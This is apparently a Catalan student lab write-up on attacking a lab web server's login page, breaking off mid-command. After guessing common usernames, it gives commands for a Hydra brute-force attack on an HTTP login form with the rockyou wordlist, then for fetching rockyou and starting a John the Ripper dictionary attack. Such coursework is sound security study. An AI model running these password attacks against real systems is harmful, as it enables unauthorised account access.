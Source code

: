 ## 1 Investigació  prèvia:
**Quins usuaris hi hauria de have?***Per el que jo entenc en el anunciat et demana que expliquis quins usuaris hi hauria d'haver en la carpeta d'usuaris del servidor i el nom d'usuari que fan serivir.*
*Normalement en un servidor web , hi ha usuaris com admin,root,guest, i usuaris personalizats que poden haver creat els administradors del sistema.*
**Quin nom d'usuari fan servir?** *Els noms d'usuari poden variar, però sovint es fan servir noms senzills i fàcils de recordar, com admin,user o noms basats en els noms dels mebmres del personal*

--------
## 2. Atac:

1. **Expliqueu quins sòn els mètodes d'atac que heu intentat (encara que hagin tingut extit).**

**Metode 1 Força bruta "No hauria de tenir exit.**
**Explicació:** *La força bruta consiteix en provar totes les combinacions possibles de les contrasñyes fins a trobar la correcta.*

- **Peque no hauria de tenirt exit***La força bruta pot ser molt lenta i ineficaç si la contrasenya és forta i la llista de contrasenyes no inclou la contrasenya real.*
- **Com fer-ho:**
1. *Instal·la hydra a Klai Linux:*

```bash
sudo apt-get install hydra
```
2. *Executa l'atac de força bruta:*

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.100.3 http-post-form "/vaca:username=^USER^&password=^PASS^:F=incorrect"
```
- **-l admin***:Especifica l'usuari*.
- **-P /usr/share/wordlist/rockyou.txt***:Usa una llista de contrasenyes communa.*
- **192.168.100.3***:IP del servidor.*
- **http-post-form***:Indica que és una pàgina web amb formulari HTTP.*
- **/vaca:username=^USER^&password=^PASS^:F=incorrect***:Pàrametres del formulari.*

**Mètode 2: Atac de Diccionari:**
**Explicació:** *L'atac de diccionari prova paraules communes i variants per adivinar la contrasenya.*
**Perque no te exit:** *Si la contrasenya no està inclosa en el diccionari o és una variant complexa,l'atac fallara.*

- **Com fer-ho:**
1. *Instala "Jhon" a Kali Linux.*

```bash
sudo apt-get install john
```

2. *Obtenir un fitxer de paraules comunes (diccionari). pots obtenir un diccionari de contrasenyes exposades, com el diccionari de DragonJar, que inclou contrasenyes de filtracions de llocs com Facebock i altres.*
*Jo fare servir el dichionari de rockyou.*

```bash
mkdir ~/rockyou
cd ~/rockyou
wget  https://github.com/zacheller/rockyou/blob/master/rockyou.txt.tar.gz
tar -xzvf rockyou.txt.tar.gz
```

3. *Executar l'atac de diccionari:*

```bash
john --wordlist=~/rockyou/rockyou.txt /

